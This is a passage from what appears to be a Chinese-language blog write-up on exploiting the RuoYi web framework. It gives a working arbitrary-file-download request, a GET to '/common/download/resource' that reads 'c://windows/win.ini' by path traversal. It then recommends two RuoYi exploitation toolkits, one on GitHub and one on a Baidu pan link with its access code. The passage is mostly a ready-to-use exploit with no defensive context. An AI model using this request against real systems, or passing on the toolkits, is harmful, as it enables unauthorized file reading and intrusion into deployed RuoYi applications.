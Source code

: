 ![img](https://img2023.cnblogs.com/blog/2541080/202308/2541080-20230826094957008-1589591075.png)
通过浏览器直接get请求以下地址即可，下载任意文件。

```ruby
http://127.0.0.1/common/download/resource?resource=c://windows/win.ini:.zip
```

![img](https://img2023.cnblogs.com/blog/2541080/202308/2541080-20230826095019359-112097955.png)

## 若依框架综合利用工具推荐

若依漏洞利用工具1：https://github.com/thelostworldFree/Ruoyi-All
若依漏洞利用工具2：链接：https://pan.baidu.com/s/1yAUm6CP5uFpUwEqbYeXtCg?pwd=sazx
提取码：sazx